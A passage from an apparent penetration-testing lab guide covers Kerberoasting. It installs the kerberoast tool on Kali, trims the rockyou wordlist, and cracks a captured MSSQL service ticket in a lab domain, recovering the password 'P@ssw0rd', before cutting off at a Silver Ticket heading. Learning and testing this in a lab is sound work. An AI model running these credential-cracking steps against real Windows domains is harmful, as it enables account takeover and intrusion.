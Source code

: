 ```console
sudo apt -y install kerberoast
```

#### Prepare word list

- Unpack existing `rockyou.txt` (❗14 million entries❗)

```console
┌──(kali㉿kali)-[~]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

- Using the original `rockyou.txt` will take a long time
- The rockyou list is sorted by popularity, use `head` to extract the top passwords for a more efficient crack (if the password is not in the top 100,000, probably bruteforce isn't the way to go)

```console
┌──(kali㉿kali)-[~]
└─$ sudo head -n 100000 /usr/share/wordlists/rockyou.txt >> rockyou.100k
```

- Time taken for kerberoast:

| Number of passwords | Time taken |
|---|---|
| 10,000 | 0m4.974s |
| 100,000 | 0m47.707s |
| 1,000,000 | 8m14.453s |

#### Crack the ticket

```console
┌──(kali㉿kali)-[~]
└─$ time python3 /usr/share/kerberoast/tgsrepcrack.py rockyou.10k 4-40a10000-mike@MSSQLSvc~svr.lab.vx~1433-LAB.VX.kirbi


    USE HASHCAT, IT'S HELLA FASTER!!


Cracking 1 tickets...
found password for ticket 0: P@ssw0rd  File: 4-40a10000-mike@MSSQLSvc~svr.lab.vx~1433-LAB.VX.kirbi
Successfully cracked all tickets

real    0m4.974s
user    0m4.961s
sys     0m0.012s
```

## 3.2. Silver Ticket
### 3.2.1. Retrieve domain's numeric identifier
